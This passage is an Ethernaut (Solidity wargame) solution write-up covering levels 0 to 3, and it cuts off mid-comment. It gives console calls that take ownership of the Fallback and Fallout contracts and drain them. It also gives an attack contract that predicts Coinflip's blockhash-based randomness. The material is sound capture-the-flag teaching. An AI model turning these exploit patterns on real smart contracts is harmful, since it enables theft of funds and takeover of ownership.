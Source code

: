 # Ethernaut solution
## 0. Hello Ethernaut
The goal of this level is to familiarise yourself with how to interact with the current instance through the developer console. You should definitely go through this level yourself 🙂 hint: type await contract.info(). If you reaaaaaaally need another hint, await contract.password(). Ok that's about all the hints I'm going to give you.

## 1. Fallback
The goal of this level is to become the owner and to reduce the balance of the contract to 0.

Let's start by figuring out how to become the owner. If you look at the contract code, the only feasible way of becoming the owner is to trigger the `receive` function. There is a `require` statement that needs to pass so we will call the `contribute` function and specify any value less than 0.001 ETH.

Thereafter we will initiate a plain ETH transfer into the contract to become the owner. To complete the second requirement, we will call the `withdraw` function to withdraw the funds out.

```
await contract.contribute({value: 1337});
await contract.send(1337)
await contract.withdraw();
```

## 2. Fallout
In earlier versions of solidity, the constructor of a contract is defined by a function with the same name as the contract i.e. if your contract name is `Test`, the name of your constructor needs to be `Test` as well.

As of solidity 0.5.0, this is no longer the case but we can still learn something important here — contracts can have malicious functions that are hidden in plain sight. In this example, the function `Fal1out` is spelt incorrectly. It is very easy to miss out on this when skimming through the code.

To become the owner, we can call the `Fal1out` function.
```
await contract.Fal1out({value: 1337});
```

## 3. Coinflip
The goal of this level is to guess result of `side` correctly 10 times in a row. The chance of this happening is 0.5^10 or 0.0009765625% which _could_ happen but very very unlikely. Fortunately for us, the contract has a flaw with their flipping algorithm, specifically relying on `block.number` as a form of randomness. A malicious user can always calculate the correct answer if they run the same algorithm in their attack function before calling your flip function. Deploy the following contract on remix and call the `attack` function to take over the victim contract.
```
pragma solidity ^0.8.0;

contract AttackCoinflip {
    address victim = 0x9010BCEbf802A031eabB52B22F3ec1331D923bBd;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public {
        // This is the same algorithm that is used by the victim contract
        // I am calculating the value for side before calling the victim contract.
        // This will always be correct because both functions are called in the same block.
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        // Normally you would use import the contract here so that you can call the
        // function directly but if you're lazy like me, you call call the function
```